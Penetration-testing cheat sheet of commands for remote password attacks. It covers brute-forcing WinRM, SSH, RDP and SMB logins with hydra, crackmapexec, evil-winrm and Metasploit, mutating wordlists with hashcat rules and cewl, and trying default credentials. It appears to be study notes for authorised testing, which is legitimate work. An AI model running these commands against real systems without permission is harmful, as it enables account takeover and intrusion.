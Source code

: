 # Misc

## Remote Password Attacks

### WinRM

#### crackmapexec

```bash
$ sudo apt-get -y install crackmapexec
$  crackmapexec <proto> -h
$ crackmapexec winrm <target-ip> -u user.list -p password.list
```

#### Evil-WinRM

```bash
$ sudo gem install evil-winrm
$ evil-winrm -i <target-ip> -u <username> -p <password>
```

If the login was successful, a terminal session is initialized using the PowerShell Remoting Protocol.

### SSH

```bash
$ hydra -L user.list -P password.list ssh://<target-ip>
$ ssh user@<target-ip>
```

### RDP

```bash
$ hydra -L user.list -P password.list rdp://<target-ip>
$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

### SMB

#### Hydra (may cause an error if the SMB version3 is running)

```bash
$ hydra -L user.list -P password.list smb://<target-ip>
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

#### Metasploit

```bash
$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
```

#### Crackmapexec

```bash
$ crackmapexec smb <target-ip> -u "user" -p "password" --shares
```

#### SMBclient

```bash
$ smbclient -U user \\\\<target-ip>\\SHARENAME
```

### Password Mutations

#### Custom rules file

```bash
$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

#### Predefined rules

```bash
$ ls /usr/share/hashcat/rules/
best64.rule                  specific.rule
combinator.rule              T0XlC-insert_00-99_1950-2050_toprules_0_F.rule
d3ad0ne.rule                 T0XlC-insert_space_and_special_0_F.rule
dive.rule                    T0XlC-insert_top_100_passwords_1_G.rule
generated2.rule              T0XlC.rule
generated.rule               T0XlCv1.rule
hybrid                       toggles1.rule
Incisive-leetspeak.rule      toggles2.rule
InsidePro-HashManager.rule   toggles3.rule
InsidePro-PasswordsPro.rule  toggles4.rule
leetspeak.rule               toggles5.rule
oscommerce.rule              unix-ninja-leetspeak.rule
rockyou-30000.rule
```

#### Spidering the web for a wordlist

```bash
$ cewl https://<target-domain> -d 4 -m 6 --lowercase -w wordlist
```

### Default Creds

Look for [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

Useful default creds [cheatsheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).

#### Combined wordlist (user:pass)

```bash
$ hydra -C <user_pass.list> <protocol>://<IP>
```

Router default creds in [here](https://www.softwaretestinghelp.com/default-router-username-and-password-list/).
